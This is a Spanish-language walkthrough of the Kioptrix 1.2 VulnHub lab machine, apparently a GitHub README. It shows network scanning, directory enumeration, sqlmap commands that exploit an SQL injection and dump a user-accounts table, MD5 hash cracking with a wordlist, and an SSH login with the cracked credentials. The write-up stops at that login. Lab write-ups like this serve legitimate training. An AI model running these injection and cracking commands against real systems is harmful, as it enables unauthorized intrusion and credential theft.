 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177891939-07f2e077-4b7a-4f04-9e6f-80c2e43d1a13.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/177892039-39832af6-5bbd-4ba1-9581-85abf27bffa0.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/177892640-8cd728ec-bbdd-4f6c-a2ec-2d1a55a17fa4.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

Modificar registro de DNS:
```
sudo nano /etc/hosts
192.168.1.4     kioptrix3.com
```
![5](https://user-images.githubusercontent.com/75953873/177894609-f8736c6f-88f5-4589-8537-b830f3aea646.png)

URL: `kioptrix3.com`

![4](https://user-images.githubusercontent.com/75953873/177894662-86f2e2d9-11d0-4e68-9d8b-eea8d94020b3.png)
 
- *Paso 4:* Enumerar directorios con Dirb. 
```
dirb http://kioptrix3.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![8](https://user-images.githubusercontent.com/75953873/177896088-d5bd5588-f32e-4391-ba4c-b3eb77cd2cfa.png)

```
dirb http://kioptrix3.com/gallery -X .php
```
![9](https://user-images.githubusercontent.com/75953873/177896489-33c3d635-4b79-4885-959f-ee23c9f644ee.png)

URL: `http://kioptrix3.com/gallery/gallery.php?id=1'`

![10](https://user-images.githubusercontent.com/75953873/177896633-3865f18f-a058-4598-a58b-a8172b935124.png)

- *Paso 4:* Inyección SQL con Sqlmap.
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```
![11](https://user-images.githubusercontent.com/75953873/177897124-cea5badf-f09c-4cfa-beec-997462e2655c.png)

Enumerar base de datos `gallery`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery --dump --batch
```
![12](https://user-images.githubusercontent.com/75953873/177897559-e09a4acd-cad1-4bed-8435-5ba220183ab2.png)

Imprimir tablas `dev_accounts`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery -T dev_accounts --dump --batch
```
![13](https://user-images.githubusercontent.com/75953873/177898181-fd42d4ba-e68a-4e0e-9257-b82883f0c1e8.png)

- *Paso 5:* Identificar hash y crackearlo.
```
hash-identifier
```
![15](https://user-images.githubusercontent.com/75953873/177899147-49dace0d-0eac-4835-8f1a-0e86660302c9.png)

Tipo de hash: **MD5**

Crackearlo con hashCRACK:

Herramienta: https://github.com/R3LI4NT/hashCrack
```
python3 hashcrack.py --md5 5badcaf789d3d1d09794d8f021f40f0e -w /usr/share/wordlists/rockyou.txt
```
![14](https://user-images.githubusercontent.com/75953873/177899361-55ca89ae-2c96-4ac8-a1df-2a2680b3f125.png)

Usuario: `loneferret`

Contraseña: `starwars`

- *Paso 6:* Conectarse remotamente al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.1.4
```
![16](https://user-images.githubusercontent.com/75953873/177899948-125d5fed-1507-473f-a550-3ad1d74ea53d.png)
